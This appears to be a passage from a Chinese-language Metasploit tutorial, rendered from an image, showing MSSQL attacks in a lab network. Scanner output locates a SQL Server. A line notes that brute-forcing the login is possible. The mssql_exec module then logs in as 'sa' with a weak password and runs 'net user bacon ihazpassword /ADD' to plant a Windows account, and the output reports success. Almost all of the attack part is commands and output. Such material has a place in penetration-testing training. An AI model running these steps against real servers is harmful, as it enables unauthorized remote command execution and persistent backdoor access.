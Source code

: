 ```shell

Module options (auxiliary/scanner/mssql/mssql_ping):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   PASSWORD                              no        The password for the specified username
   RHOSTS                                yes       The target address range or CIDR identifier
   TDSENCRYPTION        false            yes       Use TLS/SSL for TDS data "Force Encryption"
   THREADS              1                yes       The number of concurrent threads
   USERNAME             sa               no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false            yes       Use windows authentification (requires DOMAIN option set)

msf auxiliary(mssql_ping) > set RHOSTS 10.211.55.1/24
RHOSTS => 10.211.55.1/24
msf auxiliary(mssql_ping) > exploit

[*] SQL Server information for 10.211.55.128:
[*] tcp = 1433
[*] np = SSHACKTHISBOX-0pipesqlquery
[*] Version = 8.00.194
[*] InstanceName = MSSQLSERVER
[*] IsClustered = No
[*] ServerName = SSHACKTHISBOX-0
[*] Auxiliary module execution completed
```

发现某个主机有mssql服务后，可以使用登录模块进行暴力破解登录：
```shell

msf auxiliary(mssql_login) > use auxiliary/admin/mssql/mssql_exec
msf auxiliary(mssql_exec) > show options

Module options (auxiliary/admin/mssql/mssql_exec):

   Name                 Current Setting                       Required  Description
   ----                 ---------------                       --------  -----------
   CMD                  cmd.exe /c echo OWNED > C:\owned.exe  no        Command to execute
   PASSWORD                                                   no        The password for the specified username
   RHOST                                                      yes       The target address
   RPORT                1433                                  yes       The target port (TCP)
   TDSENCRYPTION        false                                 yes       Use TLS/SSL for TDS data "Force Encryption"
   USERNAME             sa                                    no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false                                 yes       Use windows authentification (requires DOMAIN option set)


msf auxiliary(mssql_exec) > set RHOST 10.211.55.128
RHOST => 10.211.55.128
msf auxiliary(mssql_exec) > set MSSQL_PASS password
MSSQL_PASS => password
msf auxiliary(mssql_exec) > set CMD net user bacon ihazpassword /ADD
cmd => net user bacon ihazpassword /ADD
msf auxiliary(mssql_exec) > exploit

The command completed successfully.

[*] Auxiliary module execution completed
```

